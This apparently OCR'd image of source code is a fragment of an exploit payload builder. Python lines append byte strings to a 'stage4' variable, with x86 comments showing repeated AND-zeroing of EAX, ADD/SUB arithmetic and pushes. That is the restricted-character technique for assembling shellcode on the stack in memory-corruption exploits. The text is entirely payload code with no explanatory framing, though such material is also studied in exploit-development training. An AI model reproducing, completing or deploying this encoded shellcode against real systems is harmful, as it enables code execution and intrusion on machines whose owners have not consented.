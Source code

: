 ```
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x62\x17\x44\x52" ## add  eax, 0x52441762
stage4 += "\x05\x51\x16\x44\x41" ## add  eax, 0x41441651
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x16\x31\x76\x26" ## add  eax, 0x26763116
stage4 += "\x05\x15\x30\x66\x15" ## add  eax, 0x15663015
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x17\x33\x65\x76" ## add  eax, 0x76653317
stage4 += "\x05\x16\x23\x54\x66" ## add  eax, 0x66542316
stage4 += "\x05\x15\x22\x44\x54" ## add  eax, 0x54442215
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x66\x62\x34" ## add  eax, 0x34626655
stage4 += "\x05\x55\x55\x61\x34" ## add  eax, 0x34615555
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x15\x30\x23\x62" ## add  eax, 0x62233015
stage4 += "\x05\x15\x40\x24\x51" ## add  eax, 0x51244015
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x30\x63\x31\x17" ## add  eax, 0x17316330
stage4 += "\x05\x40\x63\x20\x17" ## add  eax, 0x17206340
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x66\x47\x62\x62" ## add  eax, 0x62624766
stage4 += "\x05\x56\x46\x52\x52" ## add  eax, 0x52524656
stage4 += "\x05\x34\x35\x32\x32" ## add  eax, 0x32323534
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x57\x13\x72\x71" ## add  eax, 0x71721357
stage4 += "\x05\x46\x04\x72\x61" ## add  eax, 0x61720446
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x07\x24\x12\x56" ## add  eax, 0x56122407
stage4 += "\x05\x07\x24\x02\x45" ## add  eax, 0x45022407
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x14\x31\x32\x73" ## add  eax, 0x73323114
stage4 += "\x05\x14\x22\x31\x63" ## add  eax, 0x63312214
stage4 += "\x05\x14\x21\x32\x53" ## add  eax, 0x53322114
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x42\x41\x17\x33" ## add  eax, 0x33174142
stage4 += "\x05\x32\x41\x16\x23" ## add  eax, 0x23164132
stage4 += "\x05\x32\x31\x15\x23" ## add  eax, 0x23153132
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
```